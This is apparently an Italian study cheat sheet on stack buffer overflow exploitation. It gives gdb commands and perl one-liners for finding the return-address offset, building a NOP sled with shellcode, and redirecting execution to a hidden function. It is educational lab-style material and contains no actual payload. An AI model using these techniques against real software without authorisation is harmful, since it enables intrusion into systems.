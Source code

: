 # Buffer overflow
Funzioni importanti:
```sh
disas *nome funzione* # mostra assembly della funzione

info functions # mostra le funzioni presenti nel programma se viene chiamato dopo aver fatto un buffer overflow vengono mostrati gli indirizzi delle funzioni

run $(perl -e 'print "A"x20, "\x..."') # oppure run $(python3 -c 'print("A"*20+"\x...")')

echo string== | base64 -d # DECODIFICA DA BASE64 
```

Per trovare il numero di caratteri per sovrascrivere indirizzo di ritorno usa gdb con comando run passando un numero preciso di caratteri "A" (codificato in \x41).
Quando inizia ad andare in overflow, diminuisci i caratteri fino a quando vedi che non compaiono più "41" nell'indirizzo mostrato nell'errore

# Shellcode

- Trovo il numero di caratteri per sovrascrivere l'indirizzo di ritorno: ```run $(perl -e "print 'A'x1512, 'BBBB'")```, assegnamo N=1512
- Sostituisco la A con il nop: \x90
- Faccio ```cat fileshellcode.txt | wc -c```, ci sottraggo 1 o il numero di eventuali caratteri speciali, poi ```echo $(( [valore] / 4 ))```, lo chiamo M (numero byte dello shellcode)
- Calcolo il numero di NOP come: num_nop=N-M
- Trovo un indirizzo di ritorno valido con ```x/200xw $esp```
- Eseguo su gdb: ```run $(perl -e "print '\x90'x[num_nop_iniziale], '[shellcode]' ,'[indirizzo_ritorno]'")```

# Chiamata funzione nascosta

- Trova il numero di caratteri per iniziare a sovrascrivere l'indirizzo di ritorno: ```run $(perl -e "print 'A'x1512, 'BBBB'")```, assegnamo N=1512
- Trovo il numero di funzioni ```info functions``` con i rispettivi indirizzi
- Usando il numero di caratteri N, aggiungo alla fine l'indirizzo in little endian: ```run $(perl -e "print 'A'x1512, '\xe7\x09\xc8\xff'")```
